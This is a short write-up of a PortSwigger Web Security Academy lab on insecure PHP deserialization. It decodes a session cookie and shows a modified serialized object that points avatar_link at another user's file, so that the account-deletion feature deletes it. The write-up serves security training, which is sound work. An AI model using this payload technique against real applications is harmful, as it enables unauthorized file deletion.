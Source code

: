 # Lab: Using application functionality to exploit insecure deserialization
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object.
* Goal: To solve the lab, edit the serialized object in the session cookie and use it to delete the morale.txt file from Carlos's home directory.

    You can log in to your own account using the following credentials: wiener:peter
    You also have access to a backup account: gregg:rosebud


## Recon
1. Login and Recon
When you'd like to delete an account, the package would be like as below:
![](https://i.imgur.com/StLYuw0.png)

    Session: `Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJzdHB4YXlzZzRtdzJ4MHo5c3h2ajE4N3dmZWEweGY5NSI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d`
    Decoded String: `O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"stpxaysg4mw2x0z9sxvj187wfea0xf95";s:11:"avatar_link";s:19:"users/wiener/avatar";}`

    You can observe that it's not only delete your whole account but your avatar image. In addition, it provide the avatar link in decoded string: `users/wiener/avatar`

2. How about we modify the delete path?(<font color="FF0000">通靈</font>)

## Exp - Change the delete path
Exploit Payload:
```php!
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"stpxaysg4mw2x0z9sxvj187wfea0xf95";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```
:::spoiler Success Screenshot
![](https://i.imgur.com/JS21zkY.png)
:::